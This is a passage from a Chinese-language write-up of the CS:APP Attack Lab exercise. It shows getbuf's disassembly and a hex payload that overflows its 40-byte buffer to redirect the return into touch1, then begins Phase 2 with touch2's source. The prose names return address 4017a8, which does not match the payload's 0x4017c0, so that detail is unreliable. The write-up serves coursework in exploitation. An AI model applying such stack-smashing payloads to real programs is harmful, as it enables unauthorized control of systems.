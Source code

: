 &emsp;&emsp;该函数并不需要传入额外的参数，我们只需将该函数的地址覆盖`getbuf`的返回地址即可。

&emsp;&emsp;而为了覆盖`getbuf`的返回地址，我们需要**填满`getbuf`函数的缓冲区，然后将缓冲区外装载返回地址的部分载入`touch1`的地址**。

&emsp;&emsp;在`ctarget.asm`中，`getbuf`对应汇编代码如下：

```assembly
00000000004017a8 <getbuf>:
  4017a8:	48 83 ec 28          	sub    $0x28,%rsp     # open stack
  4017ac:	48 89 e7             	mov    %rsp,%rdi      # rdi = rsp
  4017af:	e8 8c 02 00 00       	callq  401a40 <Gets>  # getstring
  4017b4:	b8 01 00 00 00       	mov    $0x1,%eax
  4017b9:	48 83 c4 28          	add    $0x28,%rsp
  4017bd:	c3                   	retq   
  4017be:	90                   	nop
  4017bf:	90                   	nop
```

&emsp;&emsp;可以看到`getbuf`的缓冲区大小为0x28，即40。我们只需用任意字符串填充缓冲区，然后将栈帧位置的返回地址改为`4017a8`即可：

```txt
00 00 00 00 00 00 00 00 # (%rsp)
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00 
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00 # (%rbp)
```

> 注意到实验采用little-endian，我们需要把地址倒过来写。

#### &emsp;&emsp;$b.$Phase 2

&emsp;&emsp;阶段二需要植入的函数如下：

```C
void touch2(unsigned val)
{
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie)
    {
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }
    else
    {
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

&emsp;&emsp;其对应汇编代码如下：

```assembly
00000000004017ec <touch2>:
......
```
